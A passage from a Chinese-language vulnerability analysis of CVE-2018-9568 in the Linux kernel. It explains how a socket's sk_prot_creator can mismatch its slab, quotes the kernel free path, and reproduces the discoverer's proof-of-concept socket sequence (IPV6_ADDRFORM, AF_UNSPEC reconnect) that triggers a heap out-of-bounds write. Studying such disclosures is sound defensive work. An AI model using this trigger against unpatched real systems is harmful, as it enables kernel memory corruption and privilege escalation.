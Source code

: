 因为sk->sk_prot会被改变，所以需要sk->sk_prot_creator来记录当前sk所属的slab及大小。在关闭socket时，正是通过sk->sk_prot_creator确定该sk应该释放到哪个slab中。当sk->sk_prot_creator和sk不匹配时，sk_prot_free()的释放过程中会产生漏洞。

```clike
/*
	sk_free()
		__sk_free()
			sk_destruct()

*/

static void __sk_destruct(struct rcu_head *head)
{
	struct sock *sk = container_of(head, struct sock, sk_rcu);
	/**/
	sk_prot_free(sk->sk_prot_creator, sk);		
}
```

### 2.2 PoC

对于如何构造一组不匹配的sk->sk_prot_creator和sk，漏洞发现者给出了PoC：

```clike
int fd = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);			// 创建一个ipv6的socket，监听端口42424
bind(fd, (struct sockaddr *)&bind_addr, sizeof(bind_addr));
listen(fd, 5);

client_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);			// 使用ipv4去连接该端口
connect(client_fd, (struct sockaddr *)&client_addr1, sizeof(client_addr1));

new_fd = accept(fd, NULL, NULL);			// 连接建立后，服务端产生一个新的new_fd
setsockopt(new_fd, SOL_IPV6, IPV6_ADDRFORM, &val, sizeof(val));		// 使用setsockopt()+IPV6_ADDRFORM将socket属性从ipv6转为ipv4

connect(new_fd, &unsp, sizeof(unsp));        // connect AF_UNSPEC 后，原本的socket连接将断开，可重新建立新的连接
bind(new_fd, (struct sockaddr *)&bind_addr4, sizeof(bind_addr4));       
listen(new_fd, 5);							// 断开连接后，用new_fd监听一个新端口42421

client_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);			// 再次使用ipv4去连接该端口
connect(client_fd, (struct sockaddr *)&client_addr2, sizeof(client_addr2));

newest_fd = accept(new_fd, NULL, NULL);		// 此时进入sk_clone_lock()，生成一个有问题的sk，导致后续关闭newest_fd时发生越界写
```

PoC代码执行时，会不断申请`struct tcp6_sock`（object size为0x880，实际内容占用size为0x840）和`struct tcp_sock`（object size为0x7c0，实际内容占用size为0x7a8），对应到TCPv6 slab和TCP slab中堆块的变化如下图所示：

 ![](/attachments/2024-11-27-CVE-2018-9568/085c8970-5f34-4055-99b3-6d7e7e35939a.png)

两次accept()操作都会触发执行sk_clone_lock()函数，为什么第二次生成的sk有问题呢？

如下图所示：

* 第一次accept()时，进入sk_clone_lock()函数，通过fd生成new_fd。具体操作是，根据sk->sk_prot从TCPv6 slab中申请一个堆块，并完成sk_prot和sk_prot_creator的拷贝。
* 之后，通过setsockopt() + IPV6_ADDRFORM改变new_fd属性，也就是将new_fd的sk->sk_prot改成了tcp_prot。
